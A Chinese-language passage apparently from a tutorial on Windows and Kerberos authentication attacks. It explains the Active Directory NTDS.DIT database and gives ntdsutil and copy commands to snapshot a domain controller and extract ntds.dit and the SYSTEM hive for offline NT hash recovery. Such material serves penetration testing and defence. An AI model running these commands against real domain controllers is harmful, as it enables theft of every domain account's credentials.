 



#### 导出NT Hash及AD数据库数据



##### 什么是NTDS.DIT

> NTDS.DIT是从Windows 2000开始，AD用来存放用户账户数据及HASH的存储数据库，存在于每一个DC上，并且默认目录为C:\Windows\NTDS\ **因为被占用所以无法直接复制并且打开，需要使用软件创建快照并且复制** 



##### 离线导出ntds.dit并读取NT Hash

创建快照

```powershell
ntdsutil snapshot "activate instance ntds" create quit quit
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-c7c8a870d6b54401becb953a77ffc752.png)


挂载快照

```powershell
ntdsutil snapshot "mount <GUID>" quit quit
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-29a89ad6099343afad62023f5ac6f0c2.png)


将快照中的ntds.dit与system文件复制出来

```powershell
copy < <snapshot directory> \Windows\NTDS\ntds.dit> <target directory>
copy < <snapshot directory> \Windows\System32\Config\SYSTEM <target directory>
```

![image.png](../assets/2021-09-01-%E6%B7%B1%E5%85%A5%E4%BA%86%E8%A7%A3Kerberos&Windows%E8%AE%A4%E8%AF%81%E6%94%BB%E5%87%BB/image-e725a08a9c7f47baa074cffb4ed7a3ae.png)
